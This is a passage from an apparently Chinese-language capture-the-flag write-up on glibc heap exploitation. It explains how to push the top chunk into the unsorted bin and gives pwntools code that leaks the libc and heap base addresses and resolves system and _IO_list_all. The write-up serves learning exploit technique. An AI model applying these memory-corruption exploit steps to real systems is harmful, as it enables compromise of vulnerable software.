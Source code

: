  ![image-20211226165655434](/images/heap/image-20211226165655434.png)

​    这时候再通过add(0x1000, 'verf1sh', 0x10, 1)申请一个大小大于top chunk的堆块，堆管理器就会使用brk拓展堆，并将原来的top chunk释放到unsorted bin中。这样我们就构造处了一个处于unsorted bin的堆块。

 ![image-20211226165700782](/images/heap/image-20211226165700782.png)

​    再add一次大chunk，就会从unsorted bin里切割，可以show出libc的地址。同时，如果这个chunk是large chunk，在fd_nextsize和bd_nextsize中还会存储堆的地址，由此就可以完成信息泄露。

 ```python
 # leak libc_base
 add(0x400, 'a'*8, 0x10, 1)
 show()
 p.recvuntil('a'*8)
 libc_base = u64(p.recv(6).ljust(8, '\x00')) - 1640 - 0x10 - libc.sym['__malloc_hook']
 success('libc_base -> {}'.format(hex(libc_base)))
 _IO_list_all = libc_base + libc.sym['_IO_list_all']
 system = libc_base + libc.sym['system']
 
 # leak heap_base
 edit(0x10, 'a'*0x10, 0x10, 1)
 show()
 p.recvuntil('a'*0x10)
 heap_base = u64(p.recv(6).ljust(8, '\x00')) & 0xfffffffff000
 success('heap_base -> {}'.format(hex(heap_base)))
 ```
